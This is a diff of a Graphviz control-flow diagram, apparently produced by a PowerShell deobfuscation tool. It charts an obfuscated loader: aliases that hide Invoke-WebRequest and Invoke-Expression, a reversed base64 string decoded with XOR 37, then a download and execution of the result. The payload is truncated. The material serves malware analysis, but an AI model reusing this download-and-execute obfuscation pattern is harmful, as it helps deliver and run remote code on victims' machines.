
The Graphviz diagram in/in.png in mine41/deob, before a commit. Its source is kept beside it as in/in.dot.

The same diagram one commit later.

The edit, as a diff of the source:
```diff
@@ -14,21 +14,35 @@
     2 [label="Id 2\lEnd\lScript End", shape=oval];
     3 [label="Id 3\lMainStart\lMain Script", shape=box];
     4 [label="Id 4\lMainEnd\lEnd Main Script", shape=box];
-    5 [label="Id 5\lFunctionDef\lfunction FunctionName", shape=box];
-    6 [label="Id 6\lFuncStart\lfunction FunctionName", shape=oval];
-    7 [label="Id 7\lFuncEnd\lEnd function FunctionName", shape=oval];
-    8 [label="Id 8\lPipelineElement\l(1+2)\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-    9 [label="Id 9\lReturn\lreturn (1+2)\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-    10 [label="Id 10\lAssignmentStatementAst\l$a = FunctionName\l[CALLS: Func: FunctionName]", shape=box, style=filled, fillcolor="#cce5ff", color="#0066cc", penwidth=2];
-    11 [label="Id 11\lPipelineElement\lwrite-host $a", shape=box];
+    5 [label="Id 5\lPipelineElement\lSet-Alias -name input -val Invoke-WebRequest\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+    6 [label="Id 6\lPipelineElement\lSet-Alias -name output -val Invoke-Expression\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+    7 [label="Id 7\lAssignmentStatementAst\l$a = \"RM0RAZ0QVMxED1BHKIFRXpgSDtAQRZFRVpgCfYVV...\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+    8 [label="Id 8\lPipelineElement\l[aRRaY]::reVErse($a)\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+    9 [label="Id 9\lAssignmentStatementAst\l$b = [sYstEM.CoNveRt]::froMbasE64strING($a...\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+    10 [label="Id 10\lLoopStart\lfor ($x = 0; $x -lt $b.Count; $x++)", shape=box];
+    11 [label="Id 11\lForInit\l$x = 0", shape=box];
+    12 [label="Id 12\lCondition\l$x -lt $b.Count\l[RESOLVABLE: 1]", shape=diamond, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+    13 [label="Id 13\lLoopEnd\lEnd For", shape=box];
+    14 [label="Id 14\lForIter\l$x++\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+    15 [label="Id 15\lAssignmentStatementAst\l${B}[${x}] = ${B}[${X}] -bxor 37\l[RESOLVABLE: 2]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+    16 [label="Id 16\lAssignmentStatementAst\l$c = (input ([sySteM.tExt.EncOding]::UTF8.GetSt...\l[RESOLVABLE: 1]\l[ALIAS: input->Invoke-WebRequest]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+    17 [label="Id 17\lPipelineElement\loutput $c\l[RESOLVABLE: 1]\l[ALIAS: output->Invoke-Expression]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
 
     1 -> 3;
     3 -> 5;
-    6 -> 8;
+    5 -> 6;
+    6 -> 7;
+    7 -> 8;
     8 -> 9;
-    9 -> 7 [label="Return"];
-    5 -> 10;
+    9 -> 10;
     10 -> 11;
-    11 -> 4;
+    11 -> 12;
+    12 -> 15;
+    15 -> 14;
+    14 -> 12;
+    12 -> 13 [label="Condition False"];
+    13 -> 16;
+    16 -> 17;
+    17 -> 4;
     4 -> 2;
 }
```
